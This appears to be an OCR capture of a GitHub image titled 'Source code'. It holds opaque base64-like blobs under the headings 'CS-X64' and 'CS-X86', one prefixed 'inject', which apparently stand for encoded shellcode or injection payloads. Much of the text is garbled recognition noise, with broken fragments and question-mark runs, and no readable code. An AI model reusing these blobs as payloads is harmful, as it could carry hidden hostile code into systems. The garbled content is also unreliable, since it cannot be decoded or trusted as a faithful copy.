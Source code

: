 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

a3g63?6?|2???,F;????6,??N;1????0??,Q;???14,a;????18,?U;22????,G;26?,s;30??,Z???;3?4,L;???3??8,?j;42?,R;4????6??,a??;5??0??,??m??;5?4,e?;5?8,6;6?2,V???;66,????@??;70,f???;7??4,?A;7?8,???8;????82,v????;86,?E;9??0??,L;9????4,G;???98??,1;???1???0???2????,M;1??06,??G;11????0,8;??11????4???,O;1???18,g;?122,C?;1??2?6????,0;1?30?,???i;????134,?w;?13?8,????j;??14????2,a????;|???hArFC????0hN6??ml???Q??9??YYaxy?CU??zU2G??0LA?sv????hIZx?DnL????CLMj????Vn????BRr???NLaN??Bqmy???U??2e?T?9???l6???n3LV?wB????f@DY?h???fOb?BAj3???L82l???Xv????yP2EU????v?CL?u2VGM??Cv1C???M????Y??MO?9zGf??wK8?YC9Oy????Tw?gUL??lCz3H????0gB????LilKM??w????H?rD?j=????a=???as90db

htrdhFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTucHcs=tyhjt

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
